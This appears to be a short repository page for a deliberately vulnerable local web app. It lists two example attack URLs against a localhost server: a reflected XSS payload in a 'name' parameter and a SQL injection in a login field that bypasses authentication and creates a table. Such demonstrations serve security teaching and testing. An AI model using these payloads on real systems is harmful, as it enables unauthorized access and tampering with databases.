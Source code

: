# XSS Injection

```
http://127.0.0.1:3000/welcome?name=<script>alert("Hello world")</script>
```

# SQL Injection

## Create Table

```
http://127.0.0.1:3000/login?username=test' OR 1=1; CREATE TABLE new_table_name(id INT, name VARCHAR(255)); --
```